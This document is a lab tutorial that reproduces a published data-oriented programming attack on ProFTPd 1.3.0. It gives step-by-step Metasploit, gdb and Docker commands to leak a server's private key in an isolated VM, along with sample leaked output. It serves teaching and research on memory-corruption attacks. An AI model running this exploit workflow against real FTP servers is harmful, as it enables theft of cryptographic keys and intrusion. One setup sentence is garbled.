

# DOP attack

This demo is adapted from the [original demo \[1\]][1] provided for the 2016
paper [**Data-Oriented Programming: On the Expressiveness of Non-Control Data
Attacks** by Hong Hu *et al.* \[2\]][2]. You can find a more detailed
explanation of the attack flow in the 2019 paper [**Exploitation techniques and
defenses for data-oriented attacks** by L. Cheng *et al.* \[3\]][3].

The goal of the attacker is to leak the SSH private key. The challenge from the
attacker perspective is that the key in memory at an unknown address on the
heap. To reach the key, the attacker uses DOP to access known data structures
and then dereference a chain of pointers to reach the SSL key and then leak it.

## Attack goal

Note that while DOP, as shown by [\[2\]][2], can realize a Turing complete set
of instructions, this is not the goal of the attacker! Instead, the attacker
will have a specific goal (in this case leaking the SSL key), and will use the
easiest means to reach that goal.

The goal of the  attacker is to find the leak the private key by dereferencing
`ssl_cts` to reach the private key stored somewhere in memory. In practice, the
attack is realized by repeatedly sending FTP commands to create a file structure
with `.message` files that trigger overflows in the `sreplace` function used to
handle special variables in the messages.


For more details, please see [\[3\]][3], from where this figure is also taken.

## Setup description

The attack consists of two actors, the ProFTP instance being attacked, and its
attacker.  We are running ProFTP in the [original VM \[1\]][1] provided by Hong
Hu *et al*. The attack is executed within the provided Docker container using
the original DOP exploit.

You can find the included ProFTP source in `dop/src/proftp-1.3.0`, and the used
exploit under `dop/exploit/`.

## Preparing the victim ProFTP

Please see the [VirtualBox setup instructions](#setup) for instructions on how
to replicate our virtual machine and virtual network setup. Our specific network
configuration is not needed, the only requirement is for Metasploit to be able
to reach the proFTP instance running within the VM. (E.g., you could run
Metasploit within another VirtualBox VM and then isolate both VMs in a virtual
network.)

### Determine ProFTP IP address

Retrieve the IP address of the VM, e.g., by logging in on the graphical
interface to the VM, and running `ifconfig`. I will here assume that the IP
address is 192.168.56.101. During this demo, we will be using SSH to interact
with the VM, but you can also use the graphical UI.

### Start ProFTP

Within the VM, then start ProFTP:

```sh
sudo /usr/local/proftpd-1.3.0/sbin/proftpd
```

### Determine usable scratch address

The DOP attack requires a memory address that starts with `0xb`, is writeable,
and points to a non-zero byte. In a real attack scenario, the attacker would
need to guess this value, but for convenience, we can here use gdb to retrieve
it:

```sh
sudo gdb -p $(pgrep -f 'proftpd.*accepting')
```

We can then view the memory layout with

```sh
(gdb) i proc m
```

and choose a convenient library data section, for instance:

```txt
  0xb7677000 0xb767e000     0x7000   0x1a2000 /lib/i386-linux-gnu/libcrypto.so.1.0.0
```

Because the address will be handled as a string during exploitation, it should
not include any zero bytes. Hence, add `0x1` to it, using the above example,
getting `0xb7677001`. Finally, either exit gdb or use the `continue` command to
continue normal execution fo the server.

## Running the xploit

### Starting Metasploit in Docker <a name="setup-docker"></a>

To build the Docker environment you can do:

```sh
cd tutorial_root
docker build -t dop
```

This will install the latest [Metasploit \[4\]][4] and copy over the DOP
exploits found in `./dop/exploit`.

To run and spawn a shell with `/dop` bound, you can then do:

```sh
docker run --rm -it \
  --add-host host.docker.internal:host-gateway \
  --entrypoint bash dop
```

### Configuring and executing exploit

Next, enter the docker container and start Metasploit `msfconsole`:

```sh
> cd tutorial_root
> ./shell_dop.sh
> msfconsole
```

Then use the following commands to load the exploit and configure it:

```txt
use exploit/linux/ftp/proftp_sreplace_dop
set ftpuser ftptest
set ftppass ftptest
set rhost 192.168.56.101
set rport 21
set non_empty_high 0xb7729001
```

NOTE: Replace the `rhost` and `non_empty_high` values with appropriate values
for your environment.

Finally, execute the exploit:

```txt
exploit
```

Expected output is something like this:
[*] Started reverse TCP handler on 172.17.0.2:4444 

```txt
main_srv @ 86de92c
d @ 8720c40
a141b2e7bb7ba86702e32058663df1c5148cfbfa123a0747197343e033f55be890388f9314c77a9112a79af3e014c4625994856f36f34201187a465b8c55c988fa534131f44150ebb72530bf04907bcd19ce21fc99f40c656d7e6b72c2d271a2e8d6ee0823dead98785cb3ad23923eaac2a248cf447a77ee5bb9664b2d48684e63ad08b6ba0bedff33cca0a7509167e37e2ed50a28e49ff88ede38972e2b06b3114ed1466eb1e17cb2803060b0a6c25b3efb4ee95f2f947528ec99b18e7411488e7411481dd78a37277b0cadf684958f8d3552ba47f25a2ae6d468fbe0080f1d62e0bfad2c91a9cedd62cdf83143b62abbf6a3c152bd853b7f179d0b2849e70b
[*] Exploit completed, but no session was created.
```

## Setting up the demo environment <a name="setup"></a>

The demo uses two component, the Docker environment for running the Metasploit
framework, and a VM for running the attacked ProFTP instance. The following
details how to set up VirtualBox, after which you can replicate the demo by
following the [Running demo section](#running-demo).

We are using the VM from the original DOP attack, you can find it at
[https://huhong789.github.io/advanced-DOP][1]. To install use the provided
virtual hard disk and set up a 32-bit Ubuntu machine. The default username is
`dop` and password `dop123`.

You will need to enable PAE/NX on the VM for it to boot:


We will connect the VM to a host network so that we can expose the contained
ProFTP to the docker environment, to do so, enter the *Host Network Manager*
through the VirtualBox *File* menu. There, add a new network with the default
configuration:



You can then configure the DOP VM network to use the host network you
configured, and make sure to click *Cable Connected*:


During the demo, we control the VM via SSH, however, you can instead just use the graphical UI and log in using the default using SSH to control the VM, but  password `dop123`.


## References

1. [Data Oriented Programming - github.io][1]
2. [Hong Hu, Shweta Shinde, Sendroiu Adrian, Zheng Leong Chua, Prateek Saxena, Zhenkai Liang, 
   **Data-Oriented Programming: On the Expressiveness of Non-Control Data Attacks**
   In *the 37th IEEE Symposium on Security and Privacy*, San Jose, CA, US, May 2016][2]
3. [L. Cheng et al. **Exploitation techniques and defenses for data-oriented attacks** in *Proceedings of the 2019 IEEE Cybersecurity Development*, Tysons Corner, VA, USA, Sep. 2019][3]
4. [Metasploit][4]

[1]: https://huhong789.github.io/advanced-DOP/
[2]: https://doi.org/10.1109/SP.2016.62
[3]: https://doi.org/10.1109/SecDev.2019.00022
[4]: https://www.metasploit.com/
